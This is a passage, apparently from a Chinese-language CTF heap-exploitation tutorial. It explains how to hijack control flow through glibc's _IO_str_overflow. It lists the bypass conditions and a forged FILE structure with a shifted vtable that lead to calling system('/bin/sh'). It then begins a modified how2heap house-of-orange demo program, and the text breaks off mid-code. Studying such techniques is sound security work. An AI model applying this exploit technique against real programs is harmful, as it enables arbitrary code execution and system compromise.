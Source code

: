 ```c
      fp->_IO_write_end = fp->_IO_buf_end;
    }
    }

  if (!flush_only)
    *fp->_IO_write_ptr++ = (unsigned char) c;
  if (fp->_IO_write_ptr > fp->_IO_read_end)
    fp->_IO_read_end = fp->_IO_write_ptr;
  return c;
}
libc_hidden_def (_IO_str_overflow)
```

利用以下代码来劫持程序流程

```c
      new_buf
        = (char *) (*((_IO_strfile *) fp)->_s._allocate_buffer) (new_size);
```

几个条件 bypass：

1. `1. fp->_flags & _IO_NO_WRITES为假`
2. `2. (pos = fp->_IO_write_ptr - fp->_IO_write_base) >= ((fp->_IO_buf_end - fp->_IO_buf_base) + flush_only(1))`
3. `3. fp->_flags & _IO_USER_BUF(0x01)为假`
4. `4. 2*(fp->_IO_buf_end - fp->_IO_buf_base) + 100 不能为负数`
5. `5. new_size = 2 * (fp->_IO_buf_end - fp->_IO_buf_base) + 100; 应当指向/bin/sh字符串对应的地址`
6. `6. fp+0xe0指向system地址`

构造：

```
_flags = 0
_IO_write_base = 0
_IO_write_ptr = (binsh_in_libc_addr -100) / 2 +1
_IO_buf_end = (binsh_in_libc_addr -100) / 2 

_freeres_list = 0x2
_freeres_buf = 0x3
_mode = -1

vtable = _IO_str_jumps - 0x18
```

#### 示例 

修改了 how2heap 的 houseoforange 代码，可以自己动手调试一下。

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int winner ( char *ptr);
int main()
{
    char *p1, *p2;
    size_t io_list_all, *top;
    // unsorted bin attack
    p1 = malloc(0x400-16);
    top = (size_t *) ( (char *) p1 + 0x400 - 16);
    top[1] = 0xc01;
    p2 = malloc(0x1000);
    io_list_all = top[2] + 0x9a8;
    top[3] = io_list_all - 0x10;
    // _IO_str_overflow conditions
    char binsh_in_libc[] = "/bin/sh\x00"; // we can found "/bin/sh" in libc, here i create it in stack
```